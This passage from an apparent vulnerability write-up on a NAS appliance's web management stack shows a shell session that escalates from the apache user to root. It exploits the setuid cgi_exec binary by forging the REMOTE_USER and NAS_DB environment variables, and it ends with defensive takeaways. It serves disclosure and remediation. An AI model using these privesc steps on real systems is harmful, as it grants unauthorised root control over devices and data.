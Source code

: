 
This allows the user nasadmin to eleveate his privileges to root by overwriting any of these binaries.

### cgi_exec
The setuid binary ```/nas/http/bin/cm/cgi_exec``` does not perform environment sanitation and lets any user becoming root by usurping the ```REMOTE_USER``` and ```NAS_DB``` environement variables.

Example privesc:
```
bash-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ pwd
/dev/shm/.a

bash-3.2$ export NAS_DB=/dev/shm/.a/

bash-3.2$ export REMOTE_USER=root

bash-3.2$ ll /nas/http/bin/cm/cgi_exec
-rwsr-sr-x 1 root root 16712 Jul 12  2018 /nas/http/bin/cm/cgi_exec

bash-3.2$ cat ./http/conf/cgi_cmds.cfg
/bin/bash

bash-3.2$ ll ./http/conf/
total 4
drwxr-xr-x 2 apache apache  60 Sep 22 10:15 .
drwxr-xr-x 3 apache apache  60 Sep 22 10:07 ..
-rwxr-xr-x 1 apache apache 101 Sep 22 10:15 cgi_cmds.cfg

bash-3.2$ /nas/http/bin/cm/cgi_exec -d "/bin/bash" "-p"
Adding /bin/bash as item #1
Original user ID is 48
Original user ID is 48
REMOTE_USER=root
REMOTE_GROUP undefined
REMOTE_GROUP now root

bash-3.2# id
uid=48(apache) gid=48(apache) euid=0(root) egid=0(root) groups=48(apache)
```


Takeaways
=========

* validate all user input using a regex or a whitelist
* do not rely on user input when performing shell, database or filesystem operations
* use a substantially bigger (>=64 bits) random value for the secret, and rotate it regularly
* encrypt the whole cookie to prevent tampering
* whenever dealing with authentication, try to perform constant-time operations server-side
* implement a lock-out that lasts minutes for offending IPs
